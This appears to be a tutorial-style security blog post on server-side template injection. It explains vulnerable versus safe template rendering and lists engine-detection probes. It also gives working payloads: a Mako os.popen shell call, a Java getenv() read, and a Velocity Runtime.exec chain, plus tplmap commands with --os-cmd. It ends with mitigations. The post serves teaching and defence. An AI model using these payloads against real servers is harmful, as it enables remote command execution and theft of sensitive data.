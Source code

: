 ```yaml
---
title: "Server Side Templete Injection"
tags:
    - WEB
    - ssti
date: "2024-08-6"
thumbnail: "/assets/img/thumbnail/ssti.jpg"
bookmark: true
---
```

# Description
---
some web application use template to enable dynamic content generation in pages 

Attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.

attacks depending on the template engine in question and how exactly the application uses it.

# impact
---
- remote code execution,
- taking full control of the back-end server
- read access to sensitive data and arbitrary files on the server.
---

**Not vulnerable to server-side template injection:**

because the user's first name is merely passed into the template as data.
```python
 $output = $twig->render("Dear {first_name},", array("first_name" => $user.first_name) );
```
**Vulnerable to server-side template injection:**
```python
`$output = $twig->render("Dear " . $_GET['name']);`
```
**Server-side template injection attack**

<img src="/assets/img/ssti/1.png">
<img src="/assets/img/csrf/2.png">

For example, the payload `{{7*'7'}}`returns `49`in Twig and `7777777` in Jinja2

**Basic template syntax**
```python
<%
                import os
                x=os.popen('id').read()
                %>
                ${x}
```
**To get Template type:**

1- make error to get it like abuse syntax

2- trying 

{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
*{7*7}

**Tools**

1- The basic syntax for tplmap is different depending on whether you're using get or post

| GET | tplmap -u <url>/?<vulnparam> |
| --- | --- |
| POST| tplmap -u <url> -d '<vulnparam>' |
```bash
./tplmap.py -u http://0.0.0.0:5000/ -d ‘name’
./tplmap.py -u http://0.0.0.0:5000/ -d ‘name’ --os-cmd “id”
```
**Explore**

Many template engines expose a "`self`" or "`environment`" object of some kind, which acts like a namespace containing all objects, methods, and attributes that are supported by the template engine.

Some objects because they are especially likely to contain sensitive information or exploitable methods.

For example, in Java-based templating languages, you can sometimes 
list all variables in the environment using the following injection:

```java
${T(java.lang.System).getenv()}
```

**Exploit using an object chain (way to bypass sandbox)**

Chaining together the right objects and methods sometimes allows you to gain access to dangerous functionality and sensitive data that initially appears out of reach.

For example, in the Java-based template engine Velocity, you have access to a `ClassTool` object called `$class`. Studying the documentation reveals that you can chain the `$class.inspect()` method and `$class.type`property to obtain references to arbitrary objects. In the past, this 
has been exploited to execute shell commands on the target system as 
follows:

```java
$class.inspect("java.lang.Runtime").type.getRuntime().exec("bad-stuff-here")
```
# Mitigation

never allow users to modify or create templates.

use of regex, white lists of authorised expressions.

Sandboxing that creates a safe, isolated environment for users. but sandbox environments are difficult to set up and can be bypassed by misconfiguration or oversights.
---

